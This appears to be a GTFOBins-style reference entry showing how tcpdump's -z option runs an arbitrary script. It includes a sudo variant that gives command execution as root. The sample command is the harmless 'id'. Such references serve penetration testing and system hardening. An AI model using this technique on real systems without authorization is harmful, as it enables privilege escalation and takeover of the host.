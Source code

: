 ```yaml
---
functions:
  execute-non-interactive:
    - code: |
        COMMAND='id > /tmp/output'
        TF=$(mktemp -u)
        echo "$COMMAND" > $TF
        chmod +x $TF
        tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
  suid-enabled:
    - code: |
        COMMAND='id > /tmp/output'
        TF=$(mktemp -u)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
---
```

